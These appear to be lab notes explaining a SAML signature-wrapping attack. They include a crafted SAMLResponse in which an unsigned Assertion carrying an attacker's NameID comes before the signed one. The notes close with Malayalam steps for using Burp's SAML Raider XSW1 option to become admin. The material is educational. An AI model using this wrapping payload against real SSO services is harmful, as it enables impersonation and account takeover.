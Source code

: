 ## Introduction
-->This course details the exploitation of an insecure SAML implementation that allows a malicious user to become another user by tampering with the SAMLResponse.

## SAML Wrapping
-->When the Identity Provider sends the SAMLResponse to the Service Provider, the Service Provider needs to do two things:

1.  Verify the signature
2.  Get the information from the message
-->SAML Wrapping attacks are relying on the fact that step #2 may not be parsing the XML message in the same way as step #1.
-->If we take a simplified version of the SAMLResponse:
```xml
	<samlp:Response>
	    <Assertion ID="_9eb16cd0-5fd9-0135-899f-0242ac110029">
	      <ds:Signature>
	        <ds:SignedInfo>
	          <ds:Reference URI="#_9eb16cd0-5fd9-0135-899f-0242ac110029">
	          </ds:Reference>
	        </ds:SignedInfo>
	        <ds:SignatureValue>...</ds:SignatureValue>
	      </ds:Signature>
	      <Subject>
	        <NameID>louis@example.org</NameID>
	      </Subject>
	    </Assertion>
	  </samlp:Response>
```
-->We can see that there is a Reference in the SignedInfo pointing to the Assertion that was signed. Implementations should rely on this reference to fetch the NameID.
-->The issue here comes from the fact that when retrieving the NameID, the SAML library or the application leveraging the SAML library may not return the same NameID as the one it verified.

## The attack
-->For this challenge, the application will use the first NameID it can find in the SAMLResponse. Therefore you will need to craft a SAMLResponse that looks something like:
```xml
	<samlp:Response>
	    <Assertion ID="whatever_you_want">
	      <Subject>
	        <NameID>hacker@example.org</NameID>
	      </Subject>
	    </Assertion>
	    <Assertion ID="_9eb16cd0-5fd9-0135-899f-0242ac110029">
	      <ds:Signature>
	        <ds:SignedInfo>
	          <ds:Reference URI="#_9eb16cd0-5fd9-0135-899f-0242ac110029">
	          </ds:Reference>
	        </ds:SignedInfo>
	        <ds:SignatureValue>...</ds:SignatureValue>
	      </ds:Signature>
	      <Subject>
	        <NameID>louis@example.org</NameID>
	      </Subject>
	    </Assertion>
	  </samlp:Response>
```
-->You will obviously need to base this SAMLResponse from the initial SAMLResponse and most fields not showed in the XML above should be kept

## Conclusion
-->This exercise showed you how to exploit a vulnerability in a SAML implementation impacting the Service Provider. With more and more enterprises using SSO, it's essential to ensure that this kind of mistakes gets detected and fixed before they get exploited.

# Video Explanation
-->saml response namal burp il intercept chyanam enit saml raider extension intercept il on aakuka apol athinte base64 decoded form il namuk saml response kanikum ariyalo.enit avide namude username thazhe search chyuka.apol kanikum. ini mukalil saml raider extensions inte korach buttons oke kanan patum.so athil xss attacks inte thazhe aayi XSW1 enn button click chyth select chyuka enit apply XSW enna button select chyuka.ipol namuk oru username match in pakaram rand namude usernames response il kanikum.so athile oro username um individual ayi test chyanam.so adyathe namude username mati admin@libcurl.so ekoduth forward adichapol namuk admin aayi maran pati ok
-->ivide signature maryathak application nokathatho agnane entho aan.theory part nokiya mathi ok